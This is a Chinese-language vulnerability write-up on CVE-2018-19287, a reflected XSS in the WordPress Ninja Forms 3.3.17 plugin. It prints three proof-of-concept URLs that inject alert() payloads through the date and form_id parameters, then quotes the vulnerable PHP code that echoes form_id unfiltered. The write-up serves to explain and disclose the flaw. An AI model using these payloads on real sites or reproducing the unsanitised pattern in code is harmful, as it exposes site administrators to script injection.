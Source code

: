 ```yaml
---
title: （CVE-2018-19287）WordPress Plugin - Ninja Forms 3.3.17 XSS
id: zhfly3247
---
```


# （CVE-2018-19287）WordPress Plugin - Ninja Forms 3.3.17 XSS

## 一、漏洞简介

Ninja Forms是WordPress的终极免费表单创建工具。使用简单但功能强大的拖放式表单创建器在几分钟内构建表单。对于初学者，可以快速轻松地设计复杂的表单，绝对没有代码。对于开发人员，利用内置的钩子，过滤器，甚至自定义字段模板，使用Ninja Forms作为框架，在表单构建或提交的任何步骤中执行您需要的任何操作。

## 二、漏洞影响

## 三、复现过程

下面是我从exploit-db上复制的POC，为了方便判断，修改了弹窗的内容。

```
http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date&end_date="><img+src=mtk+onerror=alert(/POC1/);//&filter_action=Filter&paged=1&action2=-1 
```

```
http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date="><img+src=mtk+onerror=alert(/POC2/);//&end_date&filter_action=Filter&paged=1&action2=-1 
```

```
http://0-sec.org/wp-admin/edit.php?post_status=trash&post_type=nf_sub&form_id=1"><script>alert(/POC3/);</script>&nf_form_filter&paged=1 
```

我们只要直接复制POC到浏览器的地址栏回车即可触发漏洞。

下图是触发第一个POC的图：

![image](../img/27cee64fc00ff910c8d8aa7642f5a56e.png)

下图是触发第二个POC的图：

![image](../img/2936c5be43f04b4530ea57b3fd000e5c.png)

下图是触发第三个POC的图：

![image](../img/b51ca6a9feb454b98abfe20b65263f25.png)

### 漏洞分析过程

笔者直接从POC方面入手，简单分析一下漏洞的成因。由于方法是一样的，笔者是一个懒人，这里就只分析了POC3的成因。

通过POC查找关键词nf_sub，确定了核心文件\wp-content\plugins\ninja-forms\includes\Admin\Menus\Submissions.php。

下图是Submissions.php部分内容：

![image](../img/21bec62cbc6f87d2d246688637f73730.png)

通过粗略的阅读，发现这个函数是导致POC3成功弹窗的关键。

下图是Submissions.php文件第71-104行内容：

```
public function change_views( $views )

{

```
// Remove our unused views.

unset( $views[ 'mine' ] );

unset( $views[ 'publish' ] );

// If the Form ID is not empty...

if( ! empty( $_GET[ 'form_id' ] ) ) {

    // ...populate the rest of the query string.

    $form_id = '&amp;form_id=' . $_GET[ 'form_id' ] . '&amp;nf_form_filter&amp;paged=1';

} else {

    // ...otherwise send in an empty string.

    $form_id = '';

}

// Build our new views.

$views[ 'all' ] = '&lt;a href="' . admin_url( 'edit.php?post_status=all&amp;post_type=nf_sub'  ) . $form_id . '"&gt;'

                . __( 'Completed', 'ninja-forms' ) . '&lt;/a&gt;';

$views[ 'trash' ] = '&lt;a href="' . admin_url( 'edit.php?post_status=trash&amp;post_type=nf_sub' ) . $form_id . '"&gt;'

                    . __( 'Trashed', 'ninja-forms' ) . '&lt;/a&gt;';

// Checks to make sure we have a post status.

if( ! empty( $_GET[ 'post_status' ] ) ) {

    // Depending on the domain set the value to plain text.

    if ( 'all' == $_GET[ 'post_status' ] ) {

        $views[ 'all' ] = __( 'Completed', 'ninja-forms' );

    } else if ( 'trash' == $_GET[ 'post_status' ] ) {

        $views[ 'trash' ] = __( 'Trashed', 'ninja-forms' );

    }

}

return $views; 
``` `}` 
```

从上面代码，我们可以看到，form_id并没有被过滤，导致XSS存在。

```
$form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1'; 
```

## 四、参考链接

> https://www.exploit-db.com/exploits/45880/

> https://www.freebuf.com/vuls/190411.html